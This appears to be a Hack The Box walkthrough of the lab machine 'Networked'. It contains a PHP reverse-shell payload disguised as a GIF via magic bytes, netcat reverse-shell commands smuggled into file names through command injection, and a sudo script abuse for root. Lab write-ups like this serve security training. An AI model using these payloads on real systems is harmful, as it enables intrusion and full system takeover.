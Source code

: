 ```yaml
---
layout: default
title: "Hack The Box - Networked"
date: 2019-11-16
tags: magic-bytes network-scripts "sudo -l"
---
```


# **Networked - 10.10.10.146**

####  `Networked` is a simple, straight-forward machine with no rabbit holes, which is why it is a great machine. The IP of the machine is **10.10.10.146**. This machine like most machines in **HTB** comes with lot of new things to learn.


## **1.Enumeration**
  As always, let us begin the enumeration using `nmap`
  
### 1.1 nmap
  This is the result of running `nmap -sC -sV -p- 10.10.10.146`

  ``` bash
Nmap scan report for 10.10.10.146 (10.10.10.146)
Host is up (0.30s latency).
Not shown: 997 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn\'t have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.29 seconds

  ```

We see that two ports 22 and 80 are open in this machine. Considering higher probability of finding vulnerability in port 80, let us enumerate port 80.

### Port 80

![networked_webpage](/images/htb/Networked/networked_webpage.png)

Since we could not find much information in the webpage, let us dig in deeper and check if we can find more directories or web pages. For this, let us use `GoBuster`.

``` bash
gobuster dir --url=http://10.10.10.146 --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.146
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/11/16 10:23:32 Starting gobuster
===============================================================
/index.php (Status: 200)
/uploads (Status: 301)
/photos.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```
Now, that looks promising. Let us go check out **/backup** first.

![networked_webpage_backup](/images/htb/Networked/networked_webpage_backup.png)

We see a `backup.tar` file that we can now download and analyze.

We have downloaded it, extracted contents of the compressed tar file and we see it has the following contents.

``` bash
root@b1nbash:~/Documents/HTB/Networked/backup# ls -al
total 24
drwxr-xr-x 2 root root 4096 Nov  4 20:47 .
drwxr-xr-x 3 root root 4096 Nov  5 03:26 ..
-rw-r--r-- 1 root root  229 Jul  9 17:03 index.php
-rw-r--r-- 1 root root 2001 Jul  2 17:08 lib.php
-rw-r--r-- 1 root root 1871 Jul  2 18:23 photos.php
-rw-r--r-- 1 root root 1331 Jul  2 18:15 upload.php
root@b1nbash:~/Documents/HTB/Networked/backup#
```

Examining the contents of `upload.php` we see that only image files are allowed. If we are able to bypass this check/filtering then we may achieve LFI (Local File Inclusion) and hence, RCE (Remote Code Execution). In `upload.php` we see that the extention of uploaded file is checked and also function `check_file_type()` from `lib.php` is being called to check the file signature to confirm the file type as image. These signatures are sometimes refered to as `the magic bytes`. Researching more on evading the magic byte check while uploading a shell script, we learn that a file starting with magic bytes `GIF89a` will be considered as a GIF image file. Now let us create a file **reverse.php.gif** with following contents.

```
GIF89a;
<h1>Reverse</h1><pre>
<?php shell_exec("bash -i >& /dev/tcp/10.10.14.2/1234 0>&1");
?>
```

## **2.Exploitation**

Now that we are ready with our exploit, let us upload the exploit php script and try to get a reverse shell in netcat, now listening on port 1234.
We go to page `/upload.php` as shown below.

![network_upload_1](/images/htb/Networked/network_upload_1.png)

Now we can browse and upload the `reverse.php.gif` file and we get the following result.

![netwrk_upload_2](/images/htb/Networked/network_upload_2.png)

To execute the php script we access `/photos.php`

![photos.php](/images/htb/Networked/network_photos.png)

We now get a reverse shell like below

![reverse-apache](/images/htb/Networked/networked_rev_shell.png)

But as we see below we are not able to access the user.txt file. To access it we have to become `guly`.


![permission-denied](/images/htb/Networked/networked_exploit_1.png)


## **3.Privilege Escalation**

### **Privilege Escalation- guly**
In the `/home/guly` directory we find a file named `check_attack.php`. Let us try to understand what the file does.

From the program we observe that `$path$value` is called to be deleted when attack observed. This is nothing but name of filenames in folder `/var/www/uploads/` with the full path. If we can give a command as input to the exec() we can get to execute that command. This requires manupilation of file name to contain the code we need to execute.
After trying names like `10_10_14_2;nc 10.10.14.2 9000 -e sh.png`, `10_10_14_2;nc 10.10.14.2 9000 -e bash &.png`, I realised that the reverse shell closes immediately. I tried doing `nc 10.10.14.2 9000 -e bash`and the same happened. Then I tried `nc 10.10.14.2 9000 -e /bin/bash`. This time, I got a stable shell !!!
Oops, how do we give that as file name ???
I decided to take help of environment variables, checked value of `$SHELL` and found it to be `/sbin/nologin`.
I changed the value of SHELL and made changes to file name as below

``` bash
bash-4.2$ export SHELL=/bin/bash
bash-4.2$ mv '10_10_14_2;nc 10.10.14.2 9000 -e bash &.png' '10_10_14_2;nc 10.10.14.2 9000 -e $SHELL &.png'
bash-4.2$
```
And I get reverse shell as gully :D

![reverse-shell-gully](/images/htb/Networked/networked_rev_guly.png)

## **Privilege Escalation - root**

To become root, we look at the available privileges we have using `sudo -l`.
``` bash
[guly@networked ~]$ sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
[guly@networked ~]$
```
So user `guly` has sudo privileges on `/usr/local/sbin/changename.sh`. Let us try running it with some random input.

![random_fuzz](/images/htb/Networked/networked_fuzz1.png)

So we observe that the input can be used to run arbitrary commands as root :)

![priv-escalate-root](/images/htb/Networked/networked_root.txt.png)

The second command given as value to PROXY_METHOD, gives us shell as root.

### > Note : Any suggestion or feedback is accepted :D [Twitter-link](https://twitter.com/7axmi)
